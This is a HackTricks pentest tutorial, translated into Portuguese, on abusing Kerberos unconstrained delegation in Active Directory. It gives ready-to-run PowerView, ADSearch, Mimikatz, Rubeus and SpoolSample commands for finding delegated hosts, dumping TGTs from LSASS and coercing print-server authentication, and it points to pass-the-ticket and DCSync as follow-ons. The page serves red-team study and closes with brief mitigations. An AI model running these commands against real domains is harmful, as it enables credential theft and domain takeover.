# Unconstrained Delegation

{{#include ../../banners/hacktricks-training.md}}

## Unconstrained delegation

Esta é uma funcionalidade que um Administrador de Domínio pode definir para qualquer **Computador** dentro do domínio. Assim, sempre que um **usuário fizer login** no Computador, uma **cópia do TGT** desse usuário será **enviada dentro do TGS** fornecido pelo DC **e salva na memória no LSASS**. Portanto, se você tiver privilégios de Administrador na máquina, poderá **extrair os tickets e se passar pelos usuários** em qualquer máquina.

Assim, se um administrador de domínio fizer login em um Computador com a funcionalidade "Unconstrained Delegation" ativada, e você tiver privilégios de administrador local nessa máquina, poderá extrair o ticket e se passar pelo Administrador de Domínio em qualquer lugar (privesc de domínio).

Você pode **encontrar objetos de Computador com esse atributo** verificando se o atributo [userAccountControl](<https://msdn.microsoft.com/en-us/library/ms680832(v=vs.85).aspx>) contém [ADS_UF_TRUSTED_FOR_DELEGATION](<https://msdn.microsoft.com/en-us/library/aa772300(v=vs.85).aspx>). Você pode fazer isso com um filtro LDAP de ‘(userAccountControl:1.2.840.113556.1.4.803:=524288)’, que é o que o powerview faz:
```bash
# List unconstrained computers
## Powerview
## A DCs always appear and might be useful to attack a DC from another compromised DC from a different domain (coercing the other DC to authenticate to it)
Get-DomainComputer –Unconstrained –Properties name
Get-DomainUser -LdapFilter '(userAccountControl:1.2.840.113556.1.4.803:=524288)'

## ADSearch
ADSearch.exe --search "(&(objectCategory=computer)(userAccountControl:1.2.840.113556.1.4.803:=524288))" --attributes samaccountname,dnshostname,operatingsystem

# Export tickets with Mimikatz
## Access LSASS memory
privilege::debug
sekurlsa::tickets /export #Recommended way
kerberos::list /export #Another way

# Monitor logins and export new tickets
## Doens't access LSASS memory directly, but uses Windows APIs
Rubeus.exe dump
Rubeus.exe monitor /interval:10 [/filteruser:<username>] #Check every 10s for new TGTs
```
Carregue o ticket do Administrador (ou usuário vítima) na memória com **Mimikatz** ou **Rubeus para um** [**Pass the Ticket**](pass-the-ticket.md)**.**\
Mais informações: [https://www.harmj0y.net/blog/activedirectory/s4u2pwnage/](https://www.harmj0y.net/blog/activedirectory/s4u2pwnage/)\
[**Mais informações sobre delegação não restrita em ired.team.**](https://ired.team/offensive-security-experiments/active-directory-kerberos-abuse/domain-compromise-via-unrestricted-kerberos-delegation)

### **Forçar Autenticação**

Se um atacante conseguir **comprometer um computador permitido para "Delegação Não Restrita"**, ele poderia **enganar** um **servidor de impressão** para **fazer login automaticamente** contra ele **salvando um TGT** na memória do servidor.\
Então, o atacante poderia realizar um **ataque Pass the Ticket para se passar** pela conta de computador do usuário do servidor de impressão.

Para fazer um servidor de impressão fazer login em qualquer máquina, você pode usar [**SpoolSample**](https://github.com/leechristensen/SpoolSample):
```bash
.\SpoolSample.exe <printmachine> <unconstrinedmachine>
```
Se o TGT for de um controlador de domínio, você pode realizar um [**ataque DCSync**](acl-persistence-abuse/index.html#dcsync) e obter todos os hashes do DC.\
[**Mais informações sobre este ataque em ired.team.**](https://ired.team/offensive-security-experiments/active-directory-kerberos-abuse/domain-compromise-via-dc-print-server-and-kerberos-delegation)

Encontre aqui outras maneiras de **forçar uma autenticação:**


{{#ref}}
printers-spooler-service-abuse.md
{{#endref}}

### Mitigação

- Limitar logins de DA/Admin a serviços específicos
- Definir "A conta é sensível e não pode ser delegada" para contas privilegiadas.

{{#include ../../banners/hacktricks-training.md}}

